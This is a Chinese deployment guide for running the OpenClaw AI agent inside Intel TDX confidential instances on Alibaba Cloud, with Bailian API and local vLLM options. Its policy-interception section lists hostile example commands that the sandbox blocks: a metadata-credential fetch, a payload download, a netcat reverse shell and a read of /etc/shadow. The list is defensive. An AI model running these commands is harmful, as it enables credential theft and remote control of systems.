


# 一键构建 OpenClaw 机密 AI Agent（百炼 API 与本地 vLLM 双场景）

## 背景信息

OpenClaw（[openclaw.ai](https://openclaw.ai)）是一款开源个人 AI Agent，支持插件式工具调用、Live Canvas 可视化工作区、IM 平台集成以及 Agent 驱动架构。AI Agent 在运行过程中会处理用户对话、调用外部工具、管理长期记忆和服务凭证，攻击面覆盖从模型请求到工具执行的完整链路。

Confidential Agent 将 OpenClaw 及多种主流 Agent 封装在 Intel TDX（Trust Domain Extensions）可信执行环境中，结合远程证明、dm-verity、Rekor 透明日志、PEP 策略执行点和 RATS-TLS 加密访问，保护用户对话、Agent 状态、SKILL 文件、模型调用凭据和工具执行过程。

本文合并覆盖两种最佳实践：

| 场景 | one-click 入口 | 镜像来源与推理后端 | 推荐实例 | 数据边界 |
| --- | --- | --- | --- | --- |
| OpenClaw + 百炼 API | `one-click/install.sh` | 默认复用官方预构建共享 CPU 镜像（或 `--image-source build` 本地构建）+ 阿里云百炼 DashScope API | `ecs.g9i.xlarge` | Agent、记忆、凭据在 TDX 内；Prompt 和回复经 HTTPS 发送到百炼 API。 |
| OpenClaw + vLLM | `one-click/install-openclaw-vllm.sh` | 构建 GPU TEE 镜像 + 实例内 vLLM（`Qwen3.6-35B-A3B`） | `ecs.gn8v-tee.4xlarge` | Agent、模型权重、推理中间态和回复均在 GPU TEE/TDX 实例内处理。 |

> **重要**
>
> 百炼 API 场景默认直接拉取并导入官方预构建镜像，免去本地构建耗时，适合快速交付与托管模型调用；vLLM 场景需要 GPU TEE 实例库存和镜像构建/模型加载时间，适合要求模型推理也不离开 TEE 边界的场景。

### 安全架构


Confidential Agent 的保护范围包括：

| 保护对象 | 说明 |
| --- | --- |
| 用户对话隐私 | 用户输入、工具执行上下文和 AI 回复，可能包含个人身份、医疗、金融等敏感信息。 |
| Agent 记忆与状态 | OpenClaw 的长期记忆、配置、SKILL 文件和运行状态。 |
| 服务凭证 | DashScope API Key、钉钉 OAuth 凭据、OpenClaw Gateway Token、模型服务配置等。 |
| vLLM 模型资产 | vLLM 场景中的模型权重、GPU 驱动运行状态和推理中间态。 |

安全能力自底向上覆盖五层，并将**镜像交付完整性（`release_digest`）**与**运行时远程证明（Rekor / TDX）**明确分离：

| 保护层级 | 机制 |
| --- | --- |
| 硬件层 | Intel TDX 对 Guest OS 内存透明加密；`gn8v-tee` 场景同时启用 NVIDIA GPU 机密计算能力。 |
| 镜像交付与启动链 | 预构建或本地导出镜像通过 `image-release.json` 的精确 SHA-256 摘要 `release_digest` 校验产物字节完整性；启动阶段独立通过 UKI、dm-verity 和 Rekor 透明日志验证启动链度量。 |
| 运行时 | `cai-pep` 对 OpenClaw 高危命令、敏感路径和网络访问执行策略沙箱拦截（百炼/CPU 场景可按实例传入 `--disable-pep` 关闭 `exec` 控制并保留证明能力；vLLM 场景强制启用完整 PEP）。 |
| 密钥管理 | 磁盘加密密钥、应用配置和凭据仅在 TDX 远程证明通过后注入。 |
| 通信链路 | 原生网络服务经 TNG RATS-TLS 完成远程证明后建立加密通道；CLI 类应用使用远程证明下发的实例级 SSH 密钥。 |

### 部署流程



`one-click/install.sh` 在部署机上按以下顺序完成工作：

1. 先确定目标 `--harness`（默认 `openclaw`）与接入方式 `--access`（默认 `web+tui`），所选接入方式用到本地客户端时，one-click 单独询问是否安装，默认跳过。
2. 安装并校验官方 `cagent` 与配套 `shelter` RPM 及原生工具（`cosign`、`aliyun`、`ossutil64`、`oras`、TNG、远程证明客户端）。
3. 默认从官方 GitHub Release 获取 `image-index.json` 和 `image-release.json`。索引提供可信 `release_digest` 和不可变 OCI 引用。`image publish` 校验产物后导入目标地域的 ECS 镜像，同账号同地域已有该镜像时直接复用。设置 `--image-source build` 可本地构建、导出和发布。
4. 按所选应用运行 `confidential-agent init <app>` 生成实例私有配置，并配置 operator / deployer 安全组 peering。
5. 创建 TDX ECS、VPC、交换机、安全组等云资源，通过 TDX 远程证明与 Rekor 参考值验证后注入磁盘密钥、应用配置、令牌及可选钉钉凭据。
6. 对原生网络服务自动启动本地 TNG `connect` 隧道并完成协议就绪探测，输出访问入口与鉴权信息。

## 前提条件

请准备一台 Alibaba Cloud Linux 3（`x86_64`）ECS 作为部署机。部署机负责控制面编排和本地隧道转发，承载业务 Agent 的 TDX / GPU TEE 实例由脚本自动创建。

| 条件 | 百炼 API 场景（`install.sh`） | vLLM 场景（`install-openclaw-vllm.sh`） |
| --- | --- | --- |
| 部署机系统 | Alibaba Cloud Linux 3（`x86_64`） | Alibaba Cloud Linux 3（`x86_64`） |
| 部署机磁盘 | 预构建模式建议不低于 40 GB；`--image-source build` 不低于 80 GB | 建议不低于 200 GB |
| 目标实例 | `ecs.g9i.xlarge`，默认 `cn-beijing-i` | `ecs.gn8v-tee.4xlarge`，默认 `cn-beijing-l` |
| 目标系统盘 | 默认 120 GiB | 默认 512 GiB |
| 阿里云权限 | ECS、VPC、安全组、OSS、自定义镜像、`AliyunECSImageImportDefaultRole` | 同左，并需要 GPU TEE 实例库存和购买权限 |
| 模型凭据 | DashScope API Key（或其他兼容推理 API Key） | 不需要 DashScope API Key |
| 可选集成 | 钉钉企业内部应用凭据 | 钉钉企业内部应用凭据 |

> **说明**
>
> 如果 `ecs.gn8v-tee.4xlarge` 暂时无库存，请等待库存恢复或尝试同规格族其他 GPU TEE 可用区。

## 操作步骤

### 步骤一：准备部署机凭证

使用具备 ECS、VPC、OSS 创建及清理权限的专用 RAM 用户（例如 `AliyunECSFullAccess`、`AliyunVPCFullAccess`、`AliyunOSSFullAccess`），并由账号管理员确认首次导入镜像所需的 `AliyunECSImageImportDefaultRole`（绑定 `AliyunECSImageImportRolePolicy`）已就绪：

```bash
export ALICLOUD_ACCESS_KEY="<YOUR_ACCESS_KEY>"
export ALICLOUD_SECRET_KEY="<YOUR_SECRET_KEY>"
```

部署百炼 API 场景时，设置 DashScope API Key：

```bash
export DASHSCOPE_API_KEY="<YOUR_DASHSCOPE_API_KEY>"
```

如需启用钉钉接入，继续设置：

```bash
export DINGTALK_BOT_CLIENT_ID="<YOUR_DINGTALK_CLIENT_ID>"
export DINGTALK_BOT_CLIENT_SECRET="<YOUR_DINGTALK_CLIENT_SECRET>"
```

这些凭证仅在当前 shell 生效；OpenClaw 配置和令牌会在远程证明通过后注入到机密实例内。

### 步骤二：部署 OpenClaw + 百炼 API

`one-click/install.sh deploy` 默认采用官方预构建共享 CPU 镜像部署 OpenClaw（`gateway` 模式，默认接入方式 `web+tui`）。若未显式传入 `--bailian-model` / `--model`（也未设置模型环境变量），正常默认模型为 `qwen4-max`。

非交互部署最佳实践示例（包含代理优先与官方 raw 回退两次 `curl`，并显式指定 `--bailian-model qwen3.7-max`）：

```bash
set -euo pipefail
INSTALL_URL="https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh"
INSTALL_SCRIPT="$(mktemp)"
curl -fL --connect-timeout 10 --max-time 90 \
  "https://github.jobcher.com/gh/${INSTALL_URL}" -o "$INSTALL_SCRIPT" || \
curl -fL --connect-timeout 10 --max-time 90 \
  "$INSTALL_URL" -o "$INSTALL_SCRIPT"
sh "$INSTALL_SCRIPT" deploy \
  --non-interactive \
  --yes \
  --region cn-beijing \
  --zone-id cn-beijing-i \
  --instance-type ecs.g9i.xlarge \
  --disk-gb 120 \
  --bailian-model qwen3.7-max
```

交互式部署（脚本会先询问镜像来源、harness、接入方式、模型、推理端点和所需凭据，回车即可采用默认值，本地应用客户端的安装单独确认）：

```bash
sh "$INSTALL_SCRIPT"
```

#### 按手头已有镜像或产物条件选择参数

下载上述 `INSTALL_SCRIPT` 后，可根据当前实际持有的产物状态选择对应的 `one-click` 方式：

1. **自动下载并导入官方预构建镜像（默认）**：直接运行 `sh "$INSTALL_SCRIPT" deploy ...`（默认 `--image-source prebuilt`），优先复用当前账号和地域的同一镜像，首次导入时下载并校验官方产物。
2. **从零本地构建共享镜像**：
   ```bash
   sh "$INSTALL_SCRIPT" deploy --non-interactive --yes --image-source build
   ```
3. **本机已构建好共享镜像**：同一 `--work-dir` 下已有当前服务的 `allinone-builder-<service-id>` 构建结果时，传入 `--image-source build --skip-build` 直接导出/复用本地构建产物而不再重跑构建。
4. **指定本地 Shelter 产物目录**。将 `RELEASE_DIGEST` 设为官方索引或本机 `image export` 提供的摘要：
   ```bash
   sh "$INSTALL_SCRIPT" deploy --non-interactive --yes \
     --artifact ./local-shelter-artifact \
     --image-release ./image-release.json \
     --release-digest "$RELEASE_DIGEST"
   ```
5. **当前地域已有可用 ECS 自定义镜像 ID（跳过拉取与 `image publish`）**：
   ```bash
   sh "$INSTALL_SCRIPT" deploy --non-interactive --yes \
     --image-id m-xxxxxxxxxxxxxxxxxxxx
   ```
   使用本机导出的描述文件时，同时传入 `--image-release ./image-release.json --release-digest "$RELEASE_DIGEST"`。
6. **复用同一云镜像再起新实例（相同或不同应用）**：更换 `--service-id` 即可在同一地域复用已导入镜像部署新实例：
   ```bash
   sh "$INSTALL_SCRIPT" deploy --non-interactive --yes \
     --harness codex --access ws --service-id codex-02
   ```

部署中断后用 `sh "$INSTALL_SCRIPT" continue`。多个未完成任务时加 `--service-id`，使用自定义状态目录时加原来的 `--state-dir`。继续原任务时，脚本只补问剩余步骤需要的凭据。要改参数并沿用相同服务 ID，先用 `cleanup --service-id <id>` 结束原任务。

#### 选择其他 Harness、原生服务接入方式或自定义推理端点

通过 `--harness`、`--access`、`--api-base-url`、`--model`（及 `CA_API_KEY` / `--api-key`）可部署共享镜像中的全部 8 种 Agent：

```bash
export CA_API_KEY="<YOUR_INFERENCE_API_KEY>"
sh "$INSTALL_SCRIPT" deploy --non-interactive --yes \
  --harness hermes \
  --access http \
  --api-base-url https://your-inference.example/v1 \
  --model qwen4-max
```

| `--harness` | 默认 `--access`（可选值） | 原生服务 / 运行方式 | 可选的宿主机客户端 | `--api-base-url` 协议 |
| --- | --- | --- | --- | --- |
| `openclaw`（默认） | `web+tui`（`web+tui` / `web` / `tui` / `ssh`） | 原生 OpenClaw Gateway（`:18789`，支持 Web、TUI、钉钉、A2A）或 SSH | 仅 `web+tui` / `tui` 可选装 `openclaw`；`web` / `ssh` 不安装 | OpenAI Chat Completions |
| `hermes` | `http`（`http` / `ssh`） | 原生 Hermes HTTP API（`:8642`，Bearer `API_SERVER_KEY`）或 SSH | 不安装 | OpenAI 兼容接口 |
| `codex` | `ws`（`ws` / `ssh`） | 原生带能力令牌鉴权的 WebSocket `app-server`（`:4500`）或 SSH | 仅 `ws` 可选装 `codex`；`ssh` 不安装 | OpenAI Responses |
| `opencode` | `web+attach`（`web+attach` / `web` / `attach` / `ssh`） | 原生带密码鉴权的 OpenCode Web / attach（`:4096`）或 SSH | 仅 `web+attach` / `attach` 可选装 `opencode`；`web` / `ssh` 不安装 | OpenAI Chat Completions |
| `dsh` | `web`（`web` / `ssh`） | 原生带鉴权令牌的 DSH Web（`:3080`）或 SSH `cai-agent headless` | 不安装 | OpenAI Chat Completions |
| `claude-code` | `ssh` | 认证实例管理 SSH：`confidential-agent ssh ... --tty -- cai-agent` | 不安装 | Anthropic Messages（默认百炼 `/apps/anthropic`） |
| `qodercli` | `ssh` | 认证实例管理 SSH，进入会话后登录 Qoder 账户 | 不安装 | 使用 Qoder 账户自身配置 |
| `pi` | `ssh` | 认证实例管理 SSH（终端 TUI 或 `cai-agent --print '任务'`） | 不安装 | OpenAI Chat Completions |

CPU one-click 和 OpenClaw + vLLM 均在交互时询问是否安装适用的本地客户端，回车跳过。传入 `--install-host-client` 可显式同意安装；`--skip-host-client` 可跳过询问和安装。非交互模式默认跳过，即使同时传入 `--yes`。

OpenClaw 的对等连接通过 Agent Card 发现对端，再经 TNG 隧道调用对端 Gateway 的 `/v1/responses`。当前 OpenClaw 卡片列出的 `/a2a` 在 Gateway 上没有对应的处理器。标准 A2A JSON-RPC `message/send` 的处理器见[独立的 data-collab 示例](../../examples/a2a-data-collab/files/agent-server.mjs)。

#### 可选：按实例禁用 OpenClaw PEP（保留远程证明）

百炼 API / CPU OpenClaw 场景默认启用 `cai-pep` 策略拦截。传入 `--disable-pep` 会按实例关闭该 OpenClaw 实例的 `exec` 工具策略沙箱控制，**但完整保留实例的 TDX 运行时远程证明资源释放及 Guest 内 `cai-pep attest collect-and-verify` 证明能力**：

```bash
sh "$INSTALL_SCRIPT" deploy \
  --non-interactive \
  --yes \
  --disable-pep
```

### 步骤三：部署 OpenClaw + vLLM（GPU TEE）

vLLM 场景在 GPU TEE 实例内启动本地 vLLM OpenAI-compatible API，OpenClaw 通过 `local-vllm` provider 调用 `http://127.0.0.1:8090/v1`：

```bash
set -euo pipefail
INSTALL_URL="https://raw.githubusercontent.com/inclavare-containers/confidential-agent/master/one-click/install-openclaw-vllm.sh"
INSTALL_SCRIPT="$(mktemp)"
PROXY_URL="${CA_GITHUB_PROXY_URL-https://gh-proxy.org/}"
FIRST_URL="${PROXY_URL:+${PROXY_URL%/}/}${INSTALL_URL}"
SECOND_URL="$INSTALL_URL"
if [[ "${CA_GITHUB_PROXY_FIRST:-1}" == 0 ]]; then
  SECOND_URL="$FIRST_URL"
  FIRST_URL="$INSTALL_URL"
fi
if ! curl -fL --connect-timeout 10 --max-time 90 "$FIRST_URL" -o "$INSTALL_SCRIPT" ||
   [[ "$(head -c 2 "$INSTALL_SCRIPT")" != '#!' ]]; then
  curl -fL --connect-timeout 10 --max-time 90 "$SECOND_URL" -o "$INSTALL_SCRIPT"
fi
[[ "$(head -c 2 "$INSTALL_SCRIPT")" == '#!' ]]
sh "$INSTALL_SCRIPT" \
  --non-interactive \
  --yes \
  --region cn-beijing \
  --zone-id cn-beijing-l \
  --instance-type ecs.gn8v-tee.4xlarge \
  --disk-gb 512
```

vLLM 默认配置如下：

| 配置项 | 默认值 |
| --- | --- |
| ModelScope 模型 | `Qwen/Qwen3.6-35B-A3B` |
| 模型目录 | `/opt/models/Qwen3.6-35B-A3B` |
| served model name | `Qwen3.6-35B-A3B` |
| vLLM 版本 | `0.28.0` |
| vLLM 端口 | `8090` |
| 镜像变体 | 默认构建并部署 `release` 变体 |

如需覆盖模型或端口，可传入 `--vllm-model-id`、`--vllm-model-dir`、`--vllm-served-model-name`、`--vllm-port`、`--vllm-version`；排障时可传入 `--vllm-build-variants debug`（或 `release,debug`）。vLLM 场景强制启用完整 `cai-pep`，不支持 `--disable-pep`。

### 步骤四：确认 operator CIDR

脚本默认探测部署机公网出口 IP，并把 operator 入口限制到该 IP `/32`。非交互模式下可通过 `--allowed-cidr` 指定一个或多个 IPv4 CIDR：

```bash
sh "$INSTALL_SCRIPT" deploy \
  --non-interactive \
  --yes \
  --allowed-cidr 203.0.113.10/32,198.51.100.0/24
```

`--allowed-cidr` 表示用户或运维入口 CIDR；脚本仍会额外探测部署机公网出口 IP 并写入 `deployer` peering，保证资源注入、状态检查和 `connect` 流程可达。

> **警告**
>
> `0.0.0.0/0` 会扩大控制面暴露范围。生产环境请限制为具体公网出口 IP 或企业出口 CIDR，并妥善保管 Gateway Token。

### 步骤五：等待部署完成

部署成功后，CPU 场景会输出类似摘要：

```text
Deployment summary
  state_dir:    /root/.confidential-agent
  work_dir:     /root/.confidential-agent/one-click
  spec:         /root/.confidential-agent/one-click/openclaw/instance.yaml
  service:      openclaw
  harness:      openclaw (gateway, access: web+tui)
  image_source: prebuilt
  release:      /root/.confidential-agent/cache/release-image/v0.3.1/image-release.json (sha256:...)
  region:       cn-beijing
  zone_id:      cn-beijing-i
  instance:     ecs.g9i.xlarge
  cidrs:        203.0.113.10/32
  deployer:     203.0.113.10/32
  image_id:     m-2ze...
  token:        <generated-or-provided-token>
  dingtalk:     0
  pep:          enabled
  web:          http://127.0.0.1:18789/openclaw
  ws/api:       ws://127.0.0.1:18789
  tui:          openclaw tui --url ws://127.0.0.1:18789 --token "<generated-or-provided-token>"
  ready_json:   /root/.confidential-agent/one-click/connect.json
  connect:      running (pid 12345, log /root/.confidential-agent/one-click/connect.log)
```

OpenClaw Gateway Token 保存在 `$HOME/.confidential-agent/one-click/secrets/gateway.token`，后续重跑会复用同一 Token；如需轮换，删除该文件后重跑脚本。该 Token 是 OpenClaw 应用层访问令牌，不是 `cai-gateway` 的客户端凭据。

### 步骤六：访问应用服务


#### Web 控制台

如果浏览器运行在部署机上，直接访问 `http://127.0.0.1:18789/openclaw`。如果浏览器运行在个人电脑上，先建立 SSH 端口转发：

```bash
ssh -N -L 18789:127.0.0.1:18789 "root@<DEPLOY_MACHINE_PUBLIC_IP>"
```

随后访问 `http://127.0.0.1:18789/openclaw`，输入步骤五输出的 Gateway Token。

#### OpenClaw 桌面客户端

若桌面客户端运行在个人电脑上，先按上一节建立 SSH 端口转发，再配置 Remote 模式：

| 配置项 | 值 |
| --- | --- |
| Server URL | `ws://127.0.0.1:18789` |
| Token | 步骤五输出的 OpenClaw Gateway Token |

#### OpenClaw TUI

```bash
openclaw tui --url ws://127.0.0.1:18789 --token "<YOUR_GATEWAY_TOKEN>"
```

实际端口以 `Deployment summary` 或 `ready_json` 为准（百炼/CPU OpenClaw 为 `one-click/connect.json`，vLLM 为 `one-click/connect-openclaw-vllm.json`）：

```bash
WORK_DIR="$HOME/.confidential-agent/one-click"
READY_JSON="$WORK_DIR/connect.json" # vLLM 路径改为 connect-openclaw-vllm.json
CONNECT_PORT="$(jq -r '.client_endpoints[0].local_port' "$READY_JSON")"
GATEWAY_TOKEN="$(cat "$WORK_DIR/secrets/gateway.token")"
openclaw tui --url "ws://127.0.0.1:${CONNECT_PORT}" --token "$GATEWAY_TOKEN"
```

首次从新设备运行 TUI 若提示 `device pairing required`，请先使用同一 Gateway Token 登录 Web 控制台，在 **Settings > Devices** 中核对并批准该 `openclaw-tui` 请求，再重新执行 TUI 命令。

#### 钉钉聊天

部署时传入 `--enable-dingtalk`，并确保已导出 `DINGTALK_BOT_CLIENT_ID` 和 `DINGTALK_BOT_CLIENT_SECRET`。钉钉请求进入 OpenClaw 后，配置、凭据和 Agent 状态均在机密实例内处理。

#### 其他原生服务与 SSH 接入

选择其他 `--harness` 时，按 `Deployment summary` 输出的对应命令接入：

- **Hermes（`http`）**：向 `http://127.0.0.1:<port>/v1/chat/completions` 发送带 `Authorization: Bearer <API_SERVER_KEY>` 的 HTTP 请求。
- **Codex（`ws`）**：运行输出的 `CODEX_REMOTE_TOKEN=... codex --remote ws://127.0.0.1:<port> --remote-auth-token-env CODEX_REMOTE_TOKEN`。
- **OpenCode（`web+attach` / `web` / `attach`）**：浏览器以用户 `opencode` 和摘要中的密码登录，或执行摘要中带 `OPENCODE_SERVER_PASSWORD` 的 `opencode attach` 命令。
- **DSH（`web`）**：浏览器打开摘要中带登录 `?token=` 的本地 `web` 地址。
- **Claude Code / QoderCLI / Pi（`ssh`）**：执行输出的 `confidential-agent ssh <service> --tty -- cai-agent`。

### 步骤七：查询当前安全状态

所有内置 harness 均预装 `tdx-remote-attestation` skill。用户可在对话中直接询问：

```text
我的数据安全吗？
这个环境可信吗？
请验证当前 TDX 运行环境。
```

该 skill 通过以下命令在 Guest 内采集并验证远程证明证据：

```bash
cai-pep attest collect-and-verify \
  --aa-url http://localhost:8006 \
  --tee tdx \
  --policy default \
  --claims
```

重点核对字段：

| 验证项 | 说明 |
| --- | --- |
| `hardware` | `submods.cpu0["ear.trustworthiness-vector"].hardware <= 32` 表示 TDX 硬件验证通过。 |
| UKI/RTMR 度量 | 展示启动链度量，并与参考值比对。 |
| GPU evidence | vLLM/GPU TEE 场景中，如 claims 包含 `nvidia_gpu.0` 且字段正常，说明 GPU 证据可被验证。 |
| PEP 状态 | 仅当 `cai-pep.service` 处于启用运行状态时，工具执行容器沙箱保护才生效。 |

在部署机上检查实时状态并生成证明报告：

```bash
confidential-agent --state-dir "$HOME/.confidential-agent" status --live
confidential-agent --state-dir "$HOME/.confidential-agent" \
  report --include-a2a --json > report.json
jq '{schema, services: (.services | map({
  service_id, collect_status, tee: .tee_info.tee,
  phase: .daemon.phase, app_ready: .daemon.app_ready,
  mesh_ready: .daemon.mesh_ready, attestation: .attestation.status,
  cpu_status: .attestation.ear_claims.submods.cpu0["ear.status"],
  rekor: .rekor.status
}))}' report.json
```

### 步骤八：释放资源

释放 CPU 场景实例资源（若部署时自定义了 `--harness` 或 `--service-id`，清理时一并传入；该操作保留已导入的共享云镜像）：

```bash
sh "$INSTALL_SCRIPT" cleanup \
  --state-dir "$HOME/.confidential-agent"
```

释放 vLLM 场景资源：

```bash
sh one-click/install-openclaw-vllm.sh cleanup \
  --state-dir "$HOME/.confidential-agent"
```

也可以直接使用本地 CLI 销毁实例或仅停止本机隧道：

```bash
confidential-agent destroy openclaw
confidential-agent destroy openclaw-vllm

confidential-agent connect stop --ready-json "$HOME/.confidential-agent/one-click/connect.json"
confidential-agent connect stop --ready-json "$HOME/.confidential-agent/one-click/connect-openclaw-vllm.json"
```

> **警告**
>
> `destroy` / `cleanup` 操作不可逆，会删除对应实例的 ECS、安全组、VPC、交换机等运行资源。通过 `image publish` 导入的共享自定义镜像会保留以供后续实例复用；确认当前地域不再需要该共享镜像后，可执行 `confidential-agent image list` 查看并运行 `confidential-agent image unpublish <builder或sha256:manifest摘要> --region cn-beijing` 清理云镜像及自有导入快照。确认全部云资源与快照均已释放后，再删除本地状态目录 `rm -rf "$HOME/.confidential-agent"`。

资源清理关系如下：



## PEP 策略拦截演示

`cai-pep` 是 OpenClaw 的运行时策略执行点。启用 PEP 时，OpenClaw 的 `exec` 工具调用会先经过 `cai-pep` 策略匹配，再进入无网只读容器沙箱执行。默认拦截类型包括：

| 类型 | 示例命令 | 目的 |
| --- | --- | --- |
| 网络访问 | `curl http://169.254.169.254/latest/meta-data/` | 防止访问云元数据服务泄露凭据。 |
| 下载外部代码 | `wget http://malicious.example.com/payload` | 防止 Prompt 注入下载恶意载荷。 |
| 反向 Shell | `nc 10.0.0.99 4444 -e /bin/bash` | 阻止建立反向连接。 |
| 远程登录 | `ssh root@external-host` | 防止越权访问外部系统。 |
| 容器操作 | `docker ps` | 防止操作宿主机容器。 |
| 敏感路径 | `cat /etc/shadow` | 阻止读取敏感系统文件。 |

## Rekor 供应链审计

默认 `reference_values=rekor`。无论使用官方预构建镜像还是本地构建镜像，状态目录与 `image-release.json` 中都包含对应的 Rekor SLSA provenance 元数据：

```bash
find "$HOME/.confidential-agent" -name "*.rekor-meta.json" -print
```

验证 inclusion proof 与日志检查点一致性：

```bash
LOG_INDEX="<对应条目的 log index>"
/usr/libexec/shelter/bin/rekor-cli verify --log-index "$LOG_INDEX" --rekor_server https://rekor.sigstore.dev
/usr/libexec/shelter/bin/rekor-cli loginfo --rekor_server https://rekor.sigstore.dev
```

## 常见问题

#### Q1：`peering 'ops' already exists with a different CIDR`

传入与现有 peering 一致的 `--allowed-cidr`，或在交互模式确认替换；非交互模式下追加 `--yes`。

#### Q2：`Shelter is required` 或官方预构建元数据下载失败

检查官方 GitHub Release 是否可达，镜像索引和描述从这里获取。OCI 产物先直连 `ghcr.io`，传输失败后自动切换到 `ghcr.1ms.run`。已有本地产物时可传入 `--artifact`，并使用相应描述文件的可信 `release_digest`。

#### Q3：本地隧道端口打不开

检查隧道日志与服务实时状态：

```bash
tail -F "$HOME/.confidential-agent/one-click/connect.log"
tail -F "$HOME/.confidential-agent/one-click/connect-openclaw-vllm.log"
confidential-agent status --live
```

如果部署机公网出口 IP 发生变化，重新运行一键脚本或更新 `deployer` peering 并执行 `confidential-agent peering apply`。

#### Q4：百炼 API 场景对话不可用

检查 `DASHSCOPE_API_KEY`、模型名称和账号额度，并通过认证实例 SSH 查看服务日志：

```bash
confidential-agent ssh openclaw -- journalctl -u cai-allinone.service -n 200 --no-pager
```

#### Q5：vLLM 场景长时间不可用

vLLM 首次启动需准备 GPU 驱动、下载模型并加载权重。若排障部署了 `debug` 变体，可登录 Guest 检查：

```bash
nvidia-smi
systemctl status cai-nvidia-cc-bootstrap.service --no-pager -l
systemctl status cai-modelscope-fetch.service --no-pager -l
systemctl status cai-vllm.service --no-pager -l
curl -fsS http://127.0.0.1:8090/v1/models
journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
```

#### Q6：TDX skill 无法确认环境可信

检查 Guest 内证明组件状态：

```bash
confidential-agent ssh openclaw -- systemctl status trustiflux-api-server.service attestation-agent.service --no-pager -l
confidential-agent ssh openclaw -- cai-pep attest collect-and-verify --aa-url http://localhost:8006 --tee tdx --policy default --claims
```

#### Q7：钉钉无响应

确认部署时已传入 `--enable-dingtalk` 且 `DINGTALK_BOT_CLIENT_ID` / `DINGTALK_BOT_CLIENT_SECRET` 正确、企业应用已开启机器人消息权限，并通过日志排查连接状态。

#### Q8：`cai-pep` 拒绝工具调用

查看 Guest 内 `cai-pep` 服务日志定位命中的策略规则：

```bash
confidential-agent ssh openclaw -- journalctl -u cai-pep.service -n 200 --no-pager
```
